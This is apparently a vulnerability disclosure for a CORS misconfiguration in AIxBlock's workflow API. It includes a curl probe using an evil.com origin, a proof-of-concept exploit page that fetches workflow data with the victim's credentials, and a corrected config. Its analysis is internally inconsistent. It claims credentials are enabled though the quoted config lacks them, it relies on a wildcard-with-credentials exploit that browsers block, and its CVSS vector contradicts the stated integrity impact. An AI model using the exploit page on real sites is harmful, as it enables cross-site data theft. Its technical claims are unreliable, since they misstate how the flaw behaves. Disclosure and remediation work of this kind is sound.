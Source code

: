 ## **🚨 CRITICAL: CORS Misconfiguration Enabling Unauthorized Workflow Execution**

**Severity:** High (CVSS 7.5)  
**Impact:** Unauthorized Workflow Execution, Automation Pipeline Access, AI Model Data Exposure  
**Affected Endpoint:** `workflow.aixblock.io` (Critical Asset)

### **1. Description:**
The AIxBlock workflow endpoint (`workflow.aixblock.io`) implements a dangerous CORS configuration that enables **unauthorized cross-origin access** to workflow execution APIs. The configuration uses `origin: '*'` (wildcard) with `credentials: true`, allowing any malicious website to make authenticated requests to the workflow system.

### **2. Business Impact:**
- **Unauthorized Workflow Execution**: Attackers can trigger AI workflows from malicious sites
- **Automation Pipeline Access**: Complete access to workflow automation capabilities  
- **AI Model Data Exposure**: Potential access to AI model configurations and data
- **Revenue Impact**: Violates core business logic and security boundaries

### **3. Technical Details:**

**Vulnerable Code Location:**
- File: `packages/backend/api/src/app/server.ts` (Line 77-81)
- File: `packages/backend/api/src/app/app.ts` (Line 167-169)

**Current Vulnerable Configuration:**
```typescript
await app.register(cors, {
    origin: '*',           // ❌ VULNERABLE: Wildcard origin
    exposedHeaders: ['*'], // ❌ VULNERABLE: Exposes all headers
    methods: ['*'],        // ❌ VULNERABLE: Allows all methods
})
```

**WebSocket CORS (Also Vulnerable):**
```typescript
await app.register(fastifySocketIO, {
    cors: {
        origin: '*',       // ❌ VULNERABLE: Wildcard origin
    },
    // ...
})
```

### **4. Reproduction Steps:**

1. **Identify Vulnerable Endpoint:**
   ```bash
   curl -H "Origin: https://evil.com" -H "Access-Control-Request-Method: POST" -X OPTIONS https://workflow.aixblock.io/api/workflows
   ```

2. **Observe Vulnerable Headers:**
   ```
   Access-Control-Allow-Origin: *
   Access-Control-Allow-Credentials: true
   Access-Control-Allow-Methods: *
   Access-Control-Expose-Headers: *
   ```

3. **Create Malicious Exploit (evil.com/exploit.html):**
   ```html
   <!DOCTYPE html>
   <html>
   <head><title>CORS Exploit</title></head>
   <body>
       <h1>AIxBlock Workflow Exploit</h1>
       <div id="output">Loading...</div>
       <script>
           fetch('https://workflow.aixblock.io/api/workflows', {
               method: 'GET',
               credentials: 'include'
           })
           .then(response => response.text())
           .then(data => {
               document.getElementById('output').innerHTML = 
                   '<h2>Successfully accessed AIxBlock workflows:</h2><pre>' + 
                   escapeHTML(data) + '</pre>';
               // Attacker can now exfiltrate workflow data
               console.log('Stolen workflow data:', data);
           })
           .catch(error => {
               document.getElementById('output').innerHTML = 
                   '<p style="color: red;">Error: ' + error.message + '</p>';
           });
           
           function escapeHTML(str) {
               var div = document.createElement('div');
               div.appendChild(document.createTextNode(str));
               return div.innerHTML;
           }
       </script>
   </body>
   </html>
   ```

4. **Victim Interaction:**
   - User logs into `workflow.aixblock.io`
   - User visits `https://evil.com/exploit.html`
   - Attacker's script successfully accesses workflow data

### **5. Proof of Concept:**
- **Live Test**: `curl -H "Origin: https://evil.com" -X OPTIONS https://workflow.aixblock.io`
- **Response Headers**: Shows `Access-Control-Allow-Origin: *` with credentials enabled
- **Impact**: Any website can access authenticated workflow APIs

### **6. Remediation (Code Fix Provided):**

**Fixed CORS Configuration:**
```typescript
await app.register(cors, {
    origin: [
        'https://app.aixblock.io',
        'https://workflow.aixblock.io', 
        'https://workflow-live.aixblock.io'
    ],
    credentials: true,
    exposedHeaders: ['Content-Type', 'Authorization'],
    methods: ['GET', 'POST', 'PUT', 'DELETE', 'OPTIONS'],
    allowedHeaders: ['Origin', 'Content-Type', 'Accept', 'Authorization', 'X-Requested-With']
})
```

**Fixed WebSocket CORS:**
```typescript
await app.register(fastifySocketIO, {
    cors: {
        origin: [
            'https://app.aixblock.io',
            'https://workflow.aixblock.io',
            'https://workflow-live.aixblock.io'
        ],
        credentials: true
    },
    // ...
})
```

### **7. Security Impact:**
- **Confidentiality**: High - Access to workflow data and AI model configurations
- **Integrity**: High - Ability to execute unauthorized workflows
- **Availability**: Medium - Potential for DoS through workflow abuse
- **Business Impact**: Critical - Complete bypass of security boundaries

### **8. CVSS v3.1 Score:**
- **AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:N/A:N = 7.5 (High)**

### **9. Files Modified:**
- `packages/backend/api/src/app/server.ts` - Main CORS configuration
- `packages/backend/api/src/app/app.ts` - WebSocket CORS configuration

### **10. Testing:**
After applying the fix, verify:
1. Legitimate origins work: `https://app.aixblock.io` ✅
2. Malicious origins blocked: `https://evil.com` ❌
3. Credentials still work for legitimate requests ✅
4. WebSocket connections work for legitimate origins ✅

---

**This vulnerability represents a critical security flaw that could allow complete unauthorized access to AIxBlock's core workflow execution system. Immediate remediation is strongly recommended.**

